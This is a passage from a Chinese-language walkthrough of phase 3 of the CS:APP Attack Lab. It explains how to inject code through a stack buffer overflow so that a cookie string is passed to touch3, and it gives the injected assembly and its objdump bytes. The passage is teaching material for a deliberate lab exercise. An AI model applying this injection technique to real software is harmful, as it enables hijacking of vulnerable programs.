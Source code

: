 攻击成功：

![image-20220808214628387](https://raw.githubusercontent.com/Abug0/Typora-Pics/master/pics/Typora20220808214628.png)

### CI(phase 3)

分析touch3的代码可以发现，touch3与touch2类似，仍旧是需要将cookie作为参数传递进去，但不同之处在于，touch2的参数类型为unsigned int，因此直接传递cookie本身即可，但touch3的参数类型为char *，需要将一个地址作为参数传递，而且touch3中进行的是字符串比较，而非数字类型的比较，所以还需要将cookie转换为对应的ascii码。

目前需要做的是：

* 将cookie放进内存，这一步通过输入字符串即可将cookie放到栈上
* 将cookie的地址放进rdi，然后调用touch3
* 覆盖getbuf的返回地址

整理目前的条件：

* 栈可执行
* 栈地址固定
* 并且在刚刚的phase 2成功完成了一次代码注入

因此，最先想到的方法就是参考phase 2，注入代码操控rdi，写出注入代码：

{%spoiler 示例代码%}
```assembly
pushw $0x6166
pushw $0x3739
pushw $0x3962
pushw $0x3935
mov %rsp, %rdi
push $0x4018fa
ret
```
{%endspoiler%}

编译后反汇编查看相应指令的十六进制表示：

{%spoiler 示例代码%}
```shell
[root@localhost target1]# objdump -d attack3.o 

attack3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	66 68 66 61          	pushw  $0x6166
   4:	66 68 39 37          	pushw  $0x3739
   8:	66 68 62 39          	pushw  $0x3962
   c:	66 68 35 39          	pushw  $0x3935
  10:	48 89 e7             	mov    %rsp,%rdi
  13:	68 fa 18 40 00       	pushq  $0x4018fa
  18:	c3                   	retq
```
{%endspoiler%}

